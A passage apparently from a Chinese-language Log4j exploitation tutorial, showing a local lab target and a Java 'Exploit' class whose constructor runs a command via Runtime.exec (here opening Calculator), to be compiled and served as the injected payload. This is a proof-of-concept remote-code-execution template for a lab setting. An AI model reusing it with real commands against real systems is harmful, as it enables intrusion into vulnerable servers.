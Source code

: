   访问http://127.0.0.1:8080/webstudy/

<img src="漏洞利用\log4j (6).png" alt="log4j (6)" style="zoom:61%;" />

  * 第二步：客户端编写恶意类。

例如：

 该例子效果为弹出计算器。

```java
public class Exploit {
  public Exploit(){
    try{
      // 要执行的命令
      String[] commands = {"open", "/System/Applications/Calculator.app"};
      Process pc = Runtime.getRuntime().exec(commands);
      pc.waitFor();
   } catch(Exception e){
      e.printStackTrace();
   }
 }

  public static void main(String[] argv) {
    Exploit e = new Exploit();
 }
}
```

* 第三步：将恶意类编译，得到Exploit.class。
